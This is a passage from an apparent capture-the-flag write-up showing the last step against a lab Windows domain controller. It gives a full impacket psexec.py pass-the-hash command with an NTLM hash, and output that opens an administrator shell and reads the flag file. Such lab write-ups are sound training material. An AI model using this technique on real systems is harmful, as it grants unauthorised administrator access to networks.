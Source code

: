 ## PTH

We can then use the [Path the hash](http://blog.gentilkiwi.com/tag/pass-the-hash)
technique with
[impacket's psexec.py](https://github.com/SecureAuthCorp/impacket/) to login as
Administrator on the Domain Controller as administrator and get the flag.


    :::text
    python psexec.py egotisticalbank.local/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.175.....
    [*] Found writable share ADMIN$
    [*] Uploading file NEOSMAXA.exe
    [*] Opening SVCManager on 10.10.10.175.....
    [*] Creating service RFiq on 10.10.10.175.....
    [*] Starting service RFiq.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.973]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    f3ee04965c68257382e31502cc5e881f

# Wrapping up

TODO
